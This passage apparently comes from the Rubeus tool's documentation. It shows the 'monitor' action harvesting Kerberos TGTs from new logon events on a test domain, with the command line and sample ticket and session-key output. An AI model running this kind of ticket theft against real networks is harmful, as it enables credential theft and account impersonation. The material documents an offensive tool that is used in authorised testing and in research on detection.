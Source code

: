 When the /filteruser (or if not specified, any user) creates a new 4624 logon event, any extracted TGT KRB-CRED data is output.

    c:\Rubeus>Rubeus.exe monitor /filteruser:dfm.a

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.0.0

    [*] Action: TGT Monitoring
    [*] Monitoring every 60 seconds for 4624 logon events
    [*] Target user : dfm.a


    [+] 9/17/2018 7:59:02 PM - 4624 logon event for 'TESTLAB.LOCAL\dfm.a' from '192.168.52.100'
    [*] Target LUID     : 0x991972
    [*] Target service  : krbtgt

      UserName                 : dfm.a
      Domain                   : TESTLAB
      LogonId                  : 10033522
      UserSID                  : S-1-5-21-883232822-274137685-4173207997-1110
      AuthenticationPackage    : Kerberos
      LogonType                : Network
      LogonTime                : 9/18/2018 2:59:02 AM
      LogonServer              :
      LogonServerDNSDomain     : TESTLAB.LOCAL
      UserPrincipalName        :

        ServiceName              : krbtgt
        TargetName               :
        ClientName               : dfm.a
        DomainName               : TESTLAB.LOCAL
        TargetDomainName         : TESTLAB.LOCAL
        AltTargetDomainName      : TESTLAB.LOCAL
        SessionKeyType           : aes256_cts_hmac_sha1
        Base64SessionKey         : orxXJZ/r7zbDvo2JUyFfi+2ygcZpxH8e6phGUT5zDbc=
        KeyExpirationTime        : 12/31/1600 4:00:00 PM
        TicketFlags              : name_canonicalize, renewable, forwarded, forwardable
        StartTime                : 9/17/2018 7:59:02 PM
        EndTime                  : 9/18/2018 12:58:59 AM
        RenewUntil               : 9/24/2018 7:58:59 PM
        TimeSkew                 : 0
        EncodedTicketSize        : 1470
        Base64EncodedTicket      :

          doIFujCCBbagAwIBBaE...(snip)...
